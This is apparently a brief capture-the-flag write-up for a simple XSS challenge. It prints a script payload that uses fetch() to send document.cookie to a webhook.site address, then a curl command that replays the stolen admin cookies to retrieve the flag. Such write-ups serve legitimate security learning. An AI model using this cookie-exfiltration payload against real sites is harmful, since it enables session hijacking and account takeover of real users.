

A simple xss challenge

Payload: 
```js
<script>
fetch('https://webhook.site/80c494ee-c817-4ca7-b718-0823b9870e5f?cookie=' + encodeURIComponent(document.cookie));
</script>
```
Get the admin cookie and get the flag


```
curl -X POST "http://instances.ectf.fr:52986/" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -H "Cookie: DO_NOT_EDIT=682d4ba8b6f303c7da120ada53660d78ea1035eeff8a22ab188bbb96d0ffcc24; id_value=admin_aeg5af2z3cds2csdsdc6cnb; username=Dave; DO_NOT_DELETE=true; bypass_glbstkf=glbstkf" \ 
     --data "message=a" | grep ECTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- -100  3787  100  3778  100     9   6799     16 --:--:-- --:--:-- --:--:--  6823
            <p>ECTF{Cook13_st0L3n_5ucc3ssfuLLy}</p>
```